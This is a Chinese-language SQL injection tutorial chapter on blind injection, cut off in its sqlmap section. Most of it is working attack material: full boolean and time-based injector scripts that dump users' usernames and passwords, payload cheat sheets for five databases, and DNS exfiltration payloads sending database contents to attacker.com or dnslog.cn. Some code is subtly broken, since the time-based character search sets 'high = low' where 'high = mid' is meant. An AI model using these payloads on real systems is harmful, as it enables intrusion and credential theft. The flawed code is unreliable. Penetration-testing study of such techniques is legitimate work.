


## 3. 盲注技术

盲注（Blind SQL Injection）是SQL注入中最基础也最具实战价值的技术形态。当页面不存在回显点（无法使用联合查询）、也不显示错误信息（无法使用报错注入）时，攻击者只能通过布尔状态或时间延迟等"隐通道"逐比特地从数据库中"读取"数据。盲注的本质是将数据库变成一个逐字符查询的黑盒——每次提问只能得到"是"或"否"的回答，攻击者通过大量提问拼凑出完整信息。

### 3.1 盲注的本质与适用场景

#### 3.1.1 为什么需要盲注

在实际渗透测试中，绝大多数Web应用不会直接在页面上显示数据库查询结果。以下是盲注出现的典型场景：

| 场景 | 特征 | 可行技术 |
|------|------|----------|
| 页面只有正常/异常两种状态 | 无回显、无报错 | 布尔盲注 |
| 页面无任何变化 | 正常和注入后看起来一模一样 | 时间盲注 |
| 带外数据传输受阻 | 无法通过DNS外带 | 布尔/时间盲注 |
| API接口返回固定JSON | 只有HTTP状态码变化 | 布尔盲注 |
| WAF过滤了UNION/报错函数 | 报错注入不可用 | 盲注 |
| 数据库无回显点 | 如SQLite、Access | 盲注 |

#### 3.1.2 盲注技术选型决策树



#### 3.1.3 盲注的速度瓶颈

盲注的根本问题在于效率。以获取一个8位的数据库名为例：

| 方法 | 单字符判断次数 | 总请求数 | 100ms/请求耗时 |
|------|--------------|---------|---------------|
| 逐字符遍历(ASCII 32-126) | 最多95次/字符 | 760次 | 1分16秒 |
| 二分法(ASCII) | 最多7次/字符 | 56次 | 5.6秒 |
| 二分法(十六进制) | 最多4次/字符 | 32次 | 3.2秒 |

可见，优化请求次数对盲注至关重要。后续章节将详细讲解二分法优化策略。

### 3.2 布尔盲注

布尔盲注是最基础的盲注技术，适用于页面存在"正常"与"异常"两种可区分状态的场景。其核心逻辑是：构造一个条件判断语句，条件为真时页面正常返回，条件为假时页面异常或无返回。

#### 3.2.1 基本原理

```sql
-- 核心思想：用SQL条件语句控制页面返回状态

-- 判断数据库名第一个字符的ASCII码是否大于64（即'A'）
?id=1' AND ASCII(SUBSTR(database(),1,1))>64-- -
-- 如果页面正常返回 → 第一个字符ASCII > 64

-- 逐位确定每个字符
?id=1' AND ASCII(SUBSTR(database(),1,1))=115-- -
-- 如果页面正常返回 → 第一个字符ASCII = 115，即's'
```

布尔盲注的信息提取流程遵循以下步骤：

1. 获取目标字符串长度（如数据库名长度、表名长度）
2. 逐字符提取（从第1个字符到最后一个字符）
3. 对每个字符，通过二分法确定其ASCII码值

#### 3.2.2 完整自动化脚本

```python
import requests
import string
import sys
import time

class BooleanBlindInjector:
    """
    布尔盲注自动化注入器
    支持：数据库名、表名、列名、数据提取
    """
    
    def __init__(self, url, true_indicator, headers=None, timeout=10):
        """
        Args:
            url: 注入点URL，{payload}会被替换为注入语句
            true_indicator: 页面为"真"时的特征字符串
            headers: 自定义HTTP头
            timeout: 请求超时时间
        """
        self.url = url
        self.true_indicator = true_indicator
        self.headers = headers or {}
        self.timeout = timeout
        self.request_count = 0  # 记录总请求数，用于效率分析
    
    def _test_condition(self, condition):
        """
        测试一个SQL条件是否为真
        
        原理：将condition注入到原始查询中，根据页面返回状态判断真假
        例如：AND ({condition}) 使整个WHERE条件在condition为真时成立
        """
        self.request_count += 1
        try:
            response = requests.get(
                self.url.format(payload=condition),
                headers=self.headers,
                timeout=self.timeout
            )
            return self.true_indicator in response.text
        except requests.RequestException as e:
            print(f"[!] 请求失败: {e}")
            return False
    
    def get_length(self, query, max_length=100):
        """
        获取查询结果的长度
        使用二分法优化，从max_length开始折半查找
        """
        # 先用大步长快速定位范围
        low, high = 0, max_length
        while low < high:
            mid = (low + high) // 2
            condition = f"({query})>{mid}"
            if self._test_condition(condition):
                low = mid + 1
            else:
                high = mid
        
        # 验证精确值
        if self._test_condition(f"({query})={low}"):
            return low
        return -1
    
    def get_char_at(self, query, position, charset=None):
        """
        获取查询结果第position个字符
        使用二分法在ASCII范围内查找
        """
        if charset:
            # 如果有已知字符集，使用字符集范围
            chars = sorted(charset)
            low, high = 0, len(chars) - 1
            while low < high:
                mid = (low + high) // 2
                condition = f"ASCII(SUBSTR(({query}),{position},1))>{ord(chars[mid])}"
                if self._test_condition(condition):
                    low = mid + 1
                else:
                    high = mid
            return chars[low]
        else:
            # ASCII范围32-126（可打印字符）
            low, high = 32, 126
            while low < high:
                mid = (low + high) // 2
                condition = f"ASCII(SUBSTR(({query}),{position},1))>{mid}"
                if self._test_condition(condition):
                    low = mid + 1
                else:
                    high = mid
            return chr(low)
    
    def extract_string(self, query, max_length=100, charset=None):
        """
        完整提取一个字符串结果
        先获取长度，再逐字符提取
        """
        print(f"[*] 提取: {query}")
        
        # Step 1: 获取长度
        length = self.get_length(f"LENGTH(({query}))", max_length)
        if length <= 0:
            print("[!] 无法获取长度，可能查询返回空值")
            return ""
        print(f"[+] 长度: {length}")
        
        # Step 2: 逐字符提取
        result = ""
        for i in range(1, length + 1):
            char = self.get_char_at(query, i, charset)
            result += char
            sys.stdout.write(f"\r[+] 进度: {result} ({i}/{length})")
            sys.stdout.flush()
        
        print()
        return result
    
    def get_current_database(self):
        """获取当前数据库名"""
        return self.extract_string("SELECT database()")
    
    def get_databases(self, separator=","):
        """获取所有数据库名"""
        query = f"SELECT GROUP_CONCAT(schema_name SEPARATOR '{separator}') FROM information_schema.schemata"
        return self.extract_string(query)
    
    def get_tables(self, database, separator=","):
        """获取指定数据库的所有表名"""
        query = f"SELECT GROUP_CONCAT(table_name SEPARATOR '{separator}') FROM information_schema.tables WHERE table_schema='{database}'"
        return self.extract_string(query, max_length=2000)
    
    def get_columns(self, table, database=None, separator=","):
        """获取指定表的所有列名"""
        db_condition = f"AND table_schema='{database}'" if database else "AND table_schema=database()"
        query = f"SELECT GROUP_CONCAT(column_name SEPARATOR '{separator}') FROM information_schema.columns WHERE table_name='{table}' {db_condition}"
        return self.extract_string(query, max_length=2000)
    
    def dump_data(self, table, columns, where="1=1", limit=100, separator=","):
        """导出指定表的数据"""
        cols = ",".join(columns)
        query = f"SELECT GROUP_CONCAT(CONCAT_WS(':', {cols}) SEPARATOR '\\n') FROM (SELECT {cols} FROM {table} WHERE {where} LIMIT {limit}) t"
        return self.extract_string(query, max_length=100000)


# 使用示例
if __name__ == "__main__":
    # 配置注入点
    injector = BooleanBlindInjector(
        url="http://target/page?id=-1' OR ({payload})-- -",
        true_indicator="正常内容",  # 页面正常时包含的字符串
        timeout=10
    )
    
    # 获取当前数据库名
    db_name = injector.get_current_database()
    print(f"\n[+] 当前数据库: {db_name}")
    print(f"[*] 总请求数: {injector.request_count}")
    
    # 获取所有表名
    tables = injector.get_tables(db_name)
    print(f"[+] 表名列表: {tables}")
    
    # 导出users表数据
    columns = injector.get_columns("users", db_name)
    col_list = [c.strip() for c in columns.split(",")]
    data = injector.dump_data("users", ["username", "password"])
    print(f"[+] 数据:\n{data}")
```

#### 3.2.3 Payload模板速查

```sql
-- ==================== MySQL 布尔盲注 ====================

-- 1. 判断数据库名长度
?id=-1' OR LENGTH(database())=8-- -
?id=-1' OR LENGTH(database())>5-- -

-- 2. 逐字符获取数据库名
?id=-1' OR ASCII(SUBSTR(database(),1,1))=115-- -

-- 3. 获取所有数据库名
?id=-1' OR ASCII(SUBSTR((SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata),1,1))=105-- -

-- 4. 获取表名
?id=-1' OR ASCII(SUBSTR((SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()),1,1))=117-- -

-- 5. 获取列名
?id=-1' OR ASCII(SUBSTR((SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users'),1,1))=105-- -

-- 6. 获取数据
?id=-1' OR ASCII(SUBSTR((SELECT GROUP_CONCAT(username,0x3a,password) FROM users),1,1))=97-- -

-- ==================== PostgreSQL 布尔盲注 ====================

-- 1. 数据库名长度
?id=-1' OR LENGTH(current_database())=5-- -

-- 2. 逐字符获取数据库名
?id=-1' OR ASCII(SUBSTR(current_database(),1,1))=116-- -

-- 3. 获取所有表名
?id=-1' OR ASCII(SUBSTR((SELECT STRING_AGG(tablename,','::text) FROM pg_tables WHERE schemaname='public'),1,1))=117-- -

-- ==================== MSSQL 布尔盲注 ====================

-- 1. 数据库名长度
?id=-1' OR LEN(DB_NAME())=6-- -

-- 2. 逐字符获取数据库名
?id=-1' OR ASCII(SUBSTRING(DB_NAME(),1,1))=109-- -

-- 3. 获取表名
?id=-1' OR ASCII(SUBSTRING((SELECT TOP 1 name FROM sysobjects WHERE xtype='U'),1,1))=117-- -

-- ==================== Oracle 布尔盲注 ====================

-- 1. 数据库名长度
?id=-1' OR LENGTH((SELECT ora_database_name FROM dual))=5-- -

-- 2. 逐字符获取数据库名
?id=-1' OR ASCII(SUBSTR((SELECT ora_database_name FROM dual),1,1))=88-- -

-- 3. 获取表名
?id=-1' OR ASCII(SUBSTR((SELECT LISTAGG(table_name,',') WITHIN GROUP (ORDER BY table_name) FROM user_tables),1,1))=85-- -

-- ==================== SQLite 布尔盲注 ====================

-- SQLite没有information_schema，使用sqlite_master
-- 1. 获取表名
?id=-1' OR ASCII(SUBSTR((SELECT GROUP_CONCAT(name) FROM sqlite_master WHERE type='table'),1,1))=117-- -

-- 2. 获取列名（通过sql字段）
?id=-1' OR ASCII(SUBSTR((SELECT sql FROM sqlite_master WHERE name='users'),1,1))=67-- -
```

#### 3.2.4 HTTP头盲注

当GET/POST参数都做了防护，但HTTP头（如User-Agent、Referer、Cookie）未做过滤时，可以通过HTTP头进行盲注：

```python
import requests

def header_blind_inject(target_url, header_name, position, char_ascii):
    """
    通过HTTP头进行布尔盲注
    适用于：服务器记录了User-Agent/Referer到数据库但未过滤的场景
    """
    # 构造注入payload
    payload = f"' OR ASCII(SUBSTR(database(),{position},1))={char_ascii} AND ''='"
    
    headers = {
        header_name: payload
    }
    
    response = requests.get(target_url, headers=headers)
    return response.status_code == 200  # 根据实际响应判断

# 常见可注入的HTTP头
injectable_headers = [
    "User-Agent",      # 最常见，Web服务器通常记录UA
    "Referer",         # 记录来源页面
    "X-Forwarded-For", # 代理场景记录客户端IP
    "Cookie",          # Cookie字段
    "Accept-Language", # 语言偏好
    "X-Real-IP",       # Nginx常用
]
```

### 3.3 时间盲注

时间盲注是盲注技术的终极形态——当页面没有任何可区分的状态差异时，唯一可靠的信息通道就是响应时间。攻击者通过SQL中的延时函数（如`SLEEP()`）控制响应延迟，从而传递二进制信息。

#### 3.3.1 基本原理

```sql
-- 核心思想：条件为真时延迟响应，条件为假时立即返回
-- 攻击者通过测量响应时间判断条件真假

-- MySQL：IF + SLEEP
?id=-1' OR IF(ASCII(SUBSTR(database(),1,1))=115, SLEEP(3), 0)-- -
-- 如果等待3秒 → 条件为真 → 第一个字符ASCII=115

-- PostgreSQL：CASE WHEN + pg_sleep
?id=-1'; SELECT CASE WHEN ASCII(SUBSTR(current_database(),1,1))=116 THEN pg_sleep(3) ELSE pg_sleep(0) END-- -

-- MSSQL：WAITFOR DELAY
?id=-1'; IF ASCII(SUBSTRING(DB_NAME(),1,1))=109 WAITFOR DELAY '0:0:3'-- -

-- Oracle：DBMS_PIPE.RECEIVE_MESSAGE（需要权限）
?id=-1' AND 1=(SELECT CASE WHEN ASCII(SUBSTR((SELECT ora_database_name FROM dual),1,1))=88 THEN DBMS_PIPE.RECEIVE_MESSAGE('a',3) ELSE 1 END FROM dual)-- -
```

#### 3.3.2 完整自动化脚本

```python
import requests
import time
import sys
import statistics

class TimeBlindInjector:
    """
    时间盲注自动化注入器
    
    关键技术难点：
    1. 网络波动会导致误判 → 使用多次测量取中位数
    2. 延迟时间选择 → 太短容易误判，太长效率低
    3. 超时处理 → 避免因网络超时误判为"真"
    """
    
    def __init__(self, url, delay=3, tolerance=0.5, samples=2, headers=None, timeout=30):
        """
        Args:
            url: 注入点URL，{payload}会被替换
            delay: SQL延迟时间（秒）
            tolerance: 容差（秒），response_time >= delay - tolerance 即视为"真"
            samples: 每次测量的采样次数（取中位数）
            headers: 自定义HTTP头
            timeout: 请求超时（应大于delay+tolerance）
        """
        self.url = url
        self.delay = delay
        self.tolerance = tolerance
        self.samples = samples
        self.headers = headers or {}
        self.timeout = timeout
        self.request_count = 0
        self.baseline_time = None
    
    def _measure_response_time(self, url):
        """测量单次请求的响应时间"""
        times = []
        for _ in range(self.samples):
            start = time.time()
            try:
                requests.get(url, headers=self.headers, timeout=self.timeout)
            except requests.Timeout:
                times.append(self.timeout)
                continue
            elapsed = time.time() - start
            times.append(elapsed)
        return statistics.median(times)
    
    def _calibrate_baseline(self):
        """
        校准基线响应时间
        
        为什么需要校准？
        - 不同服务器的基准响应时间差异很大（10ms vs 200ms）
        - 网络波动会影响判断准确性
        - 通过测量"假"条件的响应时间确定基线
        """
        print("[*] 校准基线响应时间...")
        # 使用一个确定为假的条件
        false_condition = "1=2"
        url = self.url.format(payload=false_condition)
        self.baseline_time = self._measure_response_time(url)
        print(f"[+] 基线时间: {self.baseline_time:.3f}s")
        print(f"[*] 延迟阈值: {self.delay - self.tolerance:.3f}s")
    
    def _test_condition(self, condition):
        """
        测试SQL条件是否为真
        
        判断逻辑：
        - response_time >= (delay - tolerance) → 条件为真
        - response_time < (delay - tolerance) → 条件为假
        """
        self.request_count += 1
        url = self.url.format(payload=condition)
        elapsed = self._measure_response_time(url)
        
        # 判断是否触发了延迟
        return elapsed >= (self.delay - self.tolerance)
    
    def get_length(self, query, max_length=100):
        """获取字符串长度（二分法）"""
        low, high = 0, max_length
        while low < high:
            mid = (low + high) // 2
            condition = f"IF(({query})>{mid}, SLEEP({self.delay}), 0)"
            if self._test_condition(condition):
                low = mid + 1
            else:
                high = mid
        return low
    
    def get_char_at(self, query, position):
        """获取第position个字符的ASCII码（二分法）"""
        low, high = 32, 126
        while low < high:
            mid = (low + high) // 2
            condition = f"IF(ASCII(SUBSTR(({query}),{position},1))>{mid}, SLEEP({self.delay}), 0)"
            if self._test_condition(condition):
                low = mid + 1
            else:
                high = low
        return low
    
    def extract_string(self, query, max_length=100):
        """完整提取字符串"""
        print(f"[*] 时间盲注提取: {query}")
        
        # 获取长度
        length = self.get_length(f"LENGTH(({query}))", max_length)
        if length <= 0:
            print("[!] 长度为0或获取失败")
            return ""
        print(f"[+] 长度: {length}")
        
        # 逐字符提取
        result = ""
        for i in range(1, length + 1):
            ascii_val = self.get_char_at(query, i)
            char = chr(ascii_val)
            result += char
            elapsed_est = self.request_count * self.delay * self.samples
            sys.stdout.write(f"\r[+] {result} ({i}/{length}) | 请求:{self.request_count} | ~{elapsed_est:.0f}s")
            sys.stdout.flush()
        
        print()
        return result
    
    def get_current_database(self):
        """获取当前数据库名"""
        return self.extract_string("SELECT database()")


# 使用示例
if __name__ == "__main__":
    injector = TimeBlindInjector(
        url="http://target/page?id=-1' OR ({payload})-- -",
        delay=3,
        tolerance=0.5,
        samples=2
    )
    
    # 校准基线
    injector._calibrate_baseline()
    
    # 提取数据库名
    db_name = injector.get_current_database()
    print(f"\n[+] 数据库: {db_name}")
    print(f"[*] 总耗时估算: {injector.request_count * 3 * 2 / 60:.1f} 分钟")
```

#### 3.3.3 各数据库时间盲注Payload

```sql
-- ==================== MySQL ====================
-- 方法1: IF + SLEEP
?id=-1' OR IF(条件, SLEEP(3), 0)-- -

-- 方法2: CASE WHEN (兼容性更好)
?id=-1' OR (SELECT CASE WHEN 条件 THEN SLEEP(3) ELSE 0 END)-- -

-- 方法3: BENCHMARK（CPU密集型，不依赖SLEEP权限）
?id=-1' OR IF(条件, BENCHMARK(10000000, SHA1('test')), 0)-- -
-- BENCHMARK执行N次表达式，通常10M次约1-2秒

-- ==================== PostgreSQL ====================
-- 方法1: pg_sleep
?id=-1'; SELECT CASE WHEN 条件 THEN pg_sleep(3) ELSE pg_sleep(0) END-- -

-- 方法2: 生成大量数据（适用于无pg_sleep权限时）
?id=-1'; SELECT CASE WHEN 条件 THEN (SELECT COUNT(*) FROM generate_series(1,10000000)) ELSE 0 END-- -

-- ==================== MSSQL ====================
-- 方法1: WAITFOR DELAY
?id=-1'; IF 条件 WAITFOR DELAY '0:0:3'-- -

-- 方法2: 使用大量计算
?id=-1'; IF 条件 SELECT TOP 10000000 * FROM sysobjects a, sysobjects b, sysobjects c-- -

-- ==================== Oracle ====================
-- 方法1: DBMS_PIPE.RECEIVE_MESSAGE（需要CREATE PROCEDURE权限）
?id=-1' AND 1=(SELECT CASE WHEN 条件 THEN DBMS_PIPE.RECEIVE_MESSAGE('a',3) ELSE 1 END FROM dual)-- -

-- 方法2: 使用大量XML解析（不需要额外权限）
?id=-1' AND 条件 AND (SELECT COUNT(*) FROM XMLTable('for $i in 1 to 10000000 return <a>{$i}</a>'))>0-- -

-- ==================== SQLite ====================
-- SQLite没有内置延时函数，需要间接方法
-- 方法1: 使用大量子查询
?id=-1' AND 条件 AND (WITH RECURSIVE cnt(x) AS (SELECT 1 UNION ALL SELECT x+1 FROM cnt WHERE x<10000000) SELECT COUNT(*) FROM cnt)>0-- -

-- 方法2: 通过外带DNS请求（如果支持）
?id=-1' AND 条件 AND (SELECT load_extension(''||'.evil.com'))-- -
```

#### 3.3.4 时间盲注误差处理

时间盲注的最大挑战是网络波动造成的误判。以下策略可以显著提高准确性：

```python
class RobustTimeBlindInjector:
    """
    鲁棒的时间盲注注入器
    
    解决的核心问题：
    1. 网络抖动 → 多次采样取中位数
    2. 服务器负载波动 → 动态调整阈值
    3. 超时误判 → 超时单独处理
    4. 累积误差 → 交叉验证关键字符
    """
    
    def __init__(self, url, delay=5, samples=3):
        self.url = url
        self.delay = delay
        self.samples = samples
        self.baseline_samples = []
    
    def calibrate(self, iterations=10):
        """
        多次校准基线，计算均值和标准差
        
        为什么delay设为5而不是2？
        - 网络波动通常在0-2秒范围内
        - delay=5时，误判概率极低
        - 但效率会下降，需要权衡
        """
        false_url = self.url.format(payload="1=2")
        for _ in range(iterations):
            start = time.time()
            try:
                requests.get(false_url, timeout=self.delay * 3)
            except:
                continue
            self.baseline_samples.append(time.time() - start)
        
        self.baseline_mean = statistics.mean(self.baseline_samples)
        self.baseline_std = statistics.stdev(self.baseline_samples) if len(self.baseline_samples) > 1 else 0.5
        # 阈值 = 基线均值 + delay/2 （取基线和延迟之间的中点）
        self.threshold = self.baseline_mean + self.delay / 2
        print(f"[+] 基线: {self.baseline_mean:.3f}s ± {self.baseline_std:.3f}s")
        print(f"[+] 判定阈值: {self.threshold:.3f}s")
    
    def test_with_confidence(self, condition, retries=2):
        """
        带置信度的条件测试
        
        当判断不确定时（响应时间在阈值附近），重试以提高准确性
        """
        results = []
        for attempt in range(retries + 1):
            url = self.url.format(payload=condition)
            times = []
            for _ in range(self.samples):
                start = time.time()
                try:
                    requests.get(url, timeout=self.delay * 3)
                except:
                    times.append(self.delay * 3)
                    continue
                times.append(time.time() - start)
            
            median_time = statistics.median(times)
            results.append(median_time >= self.threshold)
        
        # 多数投票
        true_count = sum(results)
        return true_count > len(results) / 2
```

### 3.4 DNS Log外带盲注

DNS Log外带是盲注中速度最快的方案，适用于目标服务器可以发起DNS请求的场景。其原理是：通过SQL注入让数据库发起一个DNS查询，查询的子域名编码了要窃取的数据，攻击者在DNS服务器端记录查询日志即可获取数据。

#### 3.4.1 原理与架构



#### 3.4.2 MySQL DNS外带

```sql
-- 前提：MySQL运行在Windows上（Linux默认不支持UNC路径）
-- 或使用LOAD_FILE配合DNS

-- 方法1: UNC路径（Windows MySQL）
?id=-1' AND LOAD_FILE(CONCAT('\\\\', (SELECT database()), '.attacker.com\\share'))-- -
-- 会触发DNS查询: mydatabase.attacker.com

-- 方法2: 使用INTO OUTFILE触发（部分配置）
?id=-1' UNION SELECT 1,2,3 INTO OUTFILE '\\\\data.attacker.com\\share\\out.txt'-- -

-- 方法3: 使用DNSLog平台的域名
-- 将attacker.com替换为dnslog.cn等平台分配的域名
?id=-1' AND LOAD_FILE(CONCAT('\\\\', 
    (SELECT HEX(GROUP_CONCAT(username,0x3a,password)) FROM users), 
    '.dnslog.cn\\a'))-- -

-- 注意：MySQL 5.7+ 默认禁用了LOAD_FILE的UNC路径
-- Windows MySQL仍然支持
```

#### 3.4.3 MSSQL DNS外带

```sql
-- MSSQL原生支持DNS外带，非常可靠
-- 前提：MSSQL服务账户有网络访问权限

-- 获取数据库名
?id=-1'; DECLARE @q VARCHAR(8000); SET @q='\\'+DB_NAME()+'.attacker.com\test'; EXEC master..xp_dirtree @q-- -

-- 获取表数据（十六进制编码避免域名非法字符）
?id=-1'; DECLARE @q VARCHAR(8000); SET @q='\\'+CONVERT(VARCHAR(MAX),HASHBYTES('MD5','test'),2)+'.attacker.com\test'; EXEC master..xp_dirtree @q-- -

-- 使用xp_fileexist（另一种触发DNS的方式）
?id=-1'; DECLARE @q VARCHAR(8000); SET @q='\\'+(SELECT TOP 1 name FROM sysobjects)+'.attacker.com\a'; EXEC master..xp_fileexist @q-- -
```

#### 3.4.4 DNS外带自动化

```python
import requests
import time
import base64

class DNSExfiltrator:
    """
    DNS Log外带自动化工具
    
    工作原理：
    1. 通过SQL注入触发数据库发起DNS查询
    2. DNS查询的子域名包含编码后的数据
    3. 通过API读取DNSLog平台的查询记录
    """
    
    def __init__(self, injection_url, dnslog_domain, dnslog_api=None):
        """
        Args:
            injection_url: 注入点URL
            dnslog_domain: DNSLog平台分配的域名（如 abc.dnslog.cn）
            dnslog_api: DNSLog平台的查询API
        """
        self.url = injection_url
        self.domain = dnslog_domain
        self.api = dnslog_api
    
    def exfiltrate_mssql(self, query, max_retries=3):
        """
        MSSQL DNS外带
        
        MSSQL使用xp_dirtree或xp_fileexist触发DNS查询
        子域名限制：每个标签最多63字符，总长度253字符
        所以需要分段传输
        """
        # 将查询结果编码为合法域名字符
        payload = (
            f"-1'; DECLARE @d VARCHAR(8000); "
            f"SET @d='\\\\' + "
            f"REPLACE(REPLACE(REPLACE("
            f"(SELECT TOP 1 {query}),"
            f"' ','_'),'.','_'),',','_') + "
            f"'.{self.domain}\\x'; "
            f"EXEC master..xp_dirtree @d-- -"
        )
        
        target = self.url.format(payload=payload)
        requests.get(target)
        
        # 等待DNS传播
        time.sleep(5)
        
        # 查询DNSLog平台
        if self.api:
            return self._fetch_dns_log()
        return None
    
    def _fetch_dns_log(self):
        """从DNSLog平台获取查询记录"""
        try:
            response = requests.get(self.api, timeout=10)
            return response.text
        except:
            return None


# 常用DNSLog平台
DNSLOG_PLATFORMS = {
    "dnslog.cn": {
        "domain": "dnslog.cn",
        "api": "http://dnslog.cn/getrecords.php",
        "note": "免费，域名随机分配，记录保留时间短"
    },
    "ceye.io": {
        "domain": "your-id.ceye.io",
        "api": "http://api.ceye.io/v1/records?token=TOKEN&type=dns",
        "note": "需注册，记录保留更久，API更稳定"
    },
    "oob.fun": {
        "domain": "xxx.oob.fun",
        "api": "通过Web界面查看",
        "note": "免费，国内访问速度快"
    }
}
```

### 3.5 高级优化：二分法与位运算

#### 3.5.1 二分法原理

标准的逐字符遍历需要在ASCII 32-126范围内逐个测试，每个字符最多需要95次请求。二分法将这个复杂度降低到log₂(95) ≈ 7次：

```text
范围: 32-126 (95个字符)

第1次: >79? → 是: 范围80-126 / 否: 范围32-79
第2次: >103? / >55? → 继续折半
第3次: >91? / >67? → 继续折半
...
第7次: 确定精确值

每次折半将搜索空间减半，7次确定任意字符
```

```python
def binary_search_char(getter, position, low=32, high=126):
    """
    二分法查找字符ASCII码
    
    Args:
        getter: 测试函数，getter(condition)返回True/False
        position: 字符位置
        low: ASCII下界
        high: ASCII上界
    
    Returns:
        ASCII码值
    """
    while low < high:
        mid = (low + high) // 2
        # 测试当前字符ASCII是否大于mid
        condition = f"ASCII(SUBSTR(database(),{position},1))>{mid}"
        if getter(condition):
            low = mid + 1
        else:
            high = mid
    return low
```

#### 3.5.2 位运算优化

比二分法更精确的优化是逐位判断。一个ASCII字符有7位（0-127），只需7次请求即可确定：

```python
def bitwise_char_extract(getter, position):
    """
    位运算逐位确定字符
    
    一个ASCII字符 = 7位二进制
    每位只需要1次判断，共7次请求
    
    例如: 'a' = 1100001
    bit 6: 1? → AND ASCII(SUBSTR(...,pos,1)) & 64 = 64
    bit 5: 1? → AND ASCII(SUBSTR(...,pos,1)) & 32 = 32
    ...
    bit 0: 1? → AND ASCII(SUBSTR(...,pos,1)) & 1 = 1
    """
    ascii_val = 0
    for bit in range(6, -1, -1):  # 从最高位开始
        mask = 1 << bit
        condition = f"ASCII(SUBSTR(database(),{position},1)) & {mask} = {mask}"
        if getter(condition):
            ascii_val |= mask
    return ascii_val

# 效率对比：
# 逐字符遍历: 最多95次/字符
# 二分法: 最多7次/字符
# 位运算: 固定7次/字符
```

#### 3.5.3 多线程并发优化

```python
import concurrent.futures
import requests

class ConcurrentBlindInjector:
    """
    并发盲注注入器
    
    核心思想：多个字符的判断可以并行执行
    限制：需要确保并发不会导致数据库锁或WAF触发
    """
    
    def __init__(self, url, true_indicator, max_workers=5):
        self.url = url
        self.true_indicator = true_indicator
        self.max_workers = max_workers
    
    def _test_single(self, args):
        """测试单个条件"""
        position, ascii_val = args
        condition = f"ASCII(SUBSTR(database(),{position},1))={ascii_val}"
        target = self.url.format(payload=condition)
        response = requests.get(target, timeout=10)
        return (position, ascii_val, self.true_indicator in response.text)
    
    def extract_concurrent(self, query, length):
        """
        并发提取字符串
        
        注意：并发度不宜过高（通常3-10），原因：
        1. 太高会触发WAF限流
        2. 数据库连接池限制
        3. 网络带宽限制
        """
        result = [''] * length
        
        # 为每个位置生成所有可能的ASCII值
        tasks = []
        for pos in range(1, length + 1):
            for ascii_val in range(32, 127):
                tasks.append((pos, ascii_val))
        
        # 并发执行
        with concurrent.futures.ThreadPoolExecutor(max_workers=self.max_workers) as executor:
            futures = {
                executor.submit(self._test_single, task): task 
                for task in tasks
            }
            
            for future in concurrent.futures.as_completed(futures):
                pos, ascii_val, is_true = future.result()
                if is_true:
                    result[pos - 1] = chr(ascii_val)
                    print(f"[+] 位置{pos}: {chr(ascii_val)}")
        
        return ''.join(result)
```

### 3.6 sqlmap自动化盲注

sqlmap是最成熟的SQL注入自动化工具，内置了所有盲注技术的实现，包括二分法优化、多线程、WAF绕过等功能。

#### 3.6.1 基础用法

```bash
# ==================== 基础注入测试 ====================

# 基本扫描（自动检测所有注入类型）
sqlmap -u "http://target/page?id=1" --batch

# 指定注入技术（B=布尔, E=报错, U=联合, S=堆叠, T=时间, Q=内联）
sqlmap -u "http://target/page?id=1" --technique=BT  # 只测试布尔和时间盲注

# 指定DBMS（跳过数据库指纹识别，加快速度）
sqlmap -u "http://target/page?id=1" --dbms=mysql

# 设置延迟（避免触发WAF/限流）
sqlmap -u "http://target/page?id=1" --delay=1  # 每次请求间隔1秒

